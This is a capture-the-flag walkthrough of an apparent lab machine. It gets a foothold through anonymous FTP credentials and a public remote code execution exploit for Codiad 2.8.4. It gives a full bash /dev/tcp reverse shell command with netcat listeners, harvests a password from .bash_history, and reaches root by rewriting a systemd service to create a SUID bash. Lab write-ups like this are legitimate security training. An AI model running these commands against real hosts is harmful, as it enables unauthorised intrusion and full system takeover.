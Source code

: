 
##Footprinting
first of all as always, we begin with an nmap scan 
```
Command used: nmap -sC -sV -p- -oN scan -T4 -P0 10.10.45.157
```

so from the result of our scan we can see that we a couple of ports open on our target machine.
- 21 - FTP
- 22 - SSH
- 80 -HTTP(Apache)
- 62337 - (Apache)
![[/posts/res/ide_1.png]]

##Enumerating FTP(port 21)

so on port 21 we have anonymous login enabled. lets start by checking that out.
```
Command used: ftp <target IP>
Username: Anonyomus
Password: <Leave_blank>
```

![[/posts/res/ide_2.png]]
from listing all directories we found a file called ***-*** let's download it to our machine.
```
command used: cd ...
get -
```

now lets cat out the content of the file :
```
cp - file
cat file
```
![[/posts/res/ide_w.png]]
so from the content of the file we now have a Username and password.
username: john
password: password

##Enumerating HTTP(Port 80 and 62337)
since we have a web server running on port 80, lets head over to our web browser.
![[/posts/res/ide_3.png]]

we have a default server page. so let's have try to enumerate for sub directories using Gobuster to see what we can find.

```
command used: gobuster dir -u http://10.10.164.209/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
so i ran the scan for a while and found nothing interesting now lets move to the next apache server.

so heading over to the server on our browser we see a login screen ![[/posts/res/ide_5.png]]

earlier on from our nmap scan we could the that the server runs the following application ***Codiad 2.8.4*** . let's try  looking up this application on google.
![[/posts/res/ide_6.png]]
from our result we can see that this version of the application is vulnerable to ***Remote Code Execution***. now using this information let's try to get a foothold on the target machine.

we can download the exploit from here [[https://www.exploit-db.com/exploits/49705]]  or you can simply use the searchsploit tool on your kali machine.
![[/posts/res/ide_7.png]]

to get the exploit  script using searchsploit use the following command:
```
 searchsploit -m 49705 
```

![[/posts/res/ide_8.png]]

to run this exploit code we can make use of the following command: 
```
python 49705.py http://10.10.164.209:62337/ john password <Target_IP> 4444 linux

```
![[/posts/res/ide_9.png]]
next we must ensure we have set up our listener using netcat: 
command used : 
```
echo 'bash -c "bash -i >/dev/tcp/<local_machine_IP>/4445 0>&1 2>&1"' | nc -lnvp 4444

```
![[/posts/res/ide_10.png]]
setup another listener 
```
command used: nc -lnvp 4445
```

with all this setup we can now run the exploit.
![[/posts/res/ide_11.png]]
we have successfully gained a shell but we faced a challenge while trying to get the user flag. it appears that the user.txt file can only be access by the owner of the file called "drac". now lets find a way to horizontally escalate our privilege to the user drac.

to do this we can check the bash history file located in drac's directory 

```
command used: cd drac
ls -la
cat .bash_history
```
![[/posts/res/ide_12.png]]
we found drac's password in the history file now let's try to login via ssh with  the credentials.

![[/posts/res/ide_13.png]]
we successfully logged in as drac now let's view the file 
```
command used: cat user.txt
```
![[/posts/res/ide_14.png]]

##Privilege Escalation 
so if we run the id command we can see that drac is a part of the sudo group.- `drac` can run the following command with sudo – `/usr/sbin/service vsftpd restart`
- `drac` can write to the vsftpd.service file – `/lib/systemd/system/vsftpd.service`

- `/etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf` contains `AdminIdentities=unix-group:sudo;unix-group:admin` (Default in Ubuntu)![[/posts/res/ide_15.png]]
Since 'drac' belongs to the sudo group, we can utilize Ubuntu's default Polkit rule to elevate our privileges.

now since we have privilege to edit the vsftpd service file, we can modify the file to run the following command:
- `cp /bin/bash /tmp/root_shell`
- `chmod +xs /tmp/root_shell`
This sequence of commands duplicates `/bin/bash` to `/tmp/root_shell` and configures the Set User ID (SUID) bit on it. This would enable us to execute the binary with the privileges of its owner, namely root.

Here is the revised process:

1. Edit the file located at `/lib/systemd/system/vsftpd.service`.
2. Insert the following code into the file:
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

![[/posts/res/ide_16.png]]

once you have made changes to the file save and restart the daemon using the following command: `systemctl daemon-reload`
![[/posts/res/ide_17.png]]

As a result, we were able to initiate our customized service by executing `sudo /usr/sbin/service vsftpd restart`. As anticipated, a file named `root_shell` was present within the `/tmp` directory. We utilized this file to spawn a root shell by executing `./tmp/root_shell -p`.


![[/posts/res/ide_18.png]]

and finally we are root!!!!!

